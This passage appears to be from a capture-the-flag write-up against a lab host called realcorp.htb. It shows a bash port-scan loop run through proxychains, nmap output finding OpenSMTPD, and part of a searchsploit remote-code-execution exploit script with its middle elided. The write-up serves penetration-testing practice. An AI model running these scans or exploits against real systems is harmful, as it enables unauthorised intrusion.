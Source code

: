 ```bash
        return "DIRECT"; 
 
    return "PROXY proxy.realcorp.htb:3128";
}
```
And there is another subnet being disclosed on this output, so let's enumerate common ports on any host for it, with the following script:
```bash
#!/bin/bash

for port in 21 22 23 25 80 88 443 445 8080 8081 9001; do
        for i in $(seq 1 254); do
                proxychains -q timeout 1 bash -c "echo '' > /dev/tcp/10.241.251.$i/$port" 2>/dev/null && echo "[+] Port $port - OPEN in Host: 10.241.251.$i" &
        done;
done;
```
Let's run it several times in case that the scan is too fast for the ports to respond and we get the following output:
```bash
./proxychain.sh
[+] Port 22 - OPEN in Host: 10.241.251.1
[+] Port 25 - OPEN in Host: 10.241.251.113
[+] Port 88 - OPEN in Host: 10.241.251.1
```
Let's enumerate port 25 open and see what is inside:
```bash
proxychains -q nmap -p25 -sCV -sT -Pn -n 10.241.251.113      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-23 13:13 EST
Nmap scan report for 10.241.251.113
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
Service Info: Host: smtp.realcorp.htb
```
Just in case let's add it as well to the /etc/hosts, now let's find an exploit for this service SMTPD 2.0.0.
### Exploitation
With searchsploit we find the following scripts:
![[Pasted image 20230123121725.png]]
There is a Remote Code Execution for version 6.6.1, this version (2.0.0) could be vulnerable since its a minor version, so let's check the code:
```bash
#!/usr/local/bin/python3

from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)
...
print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
```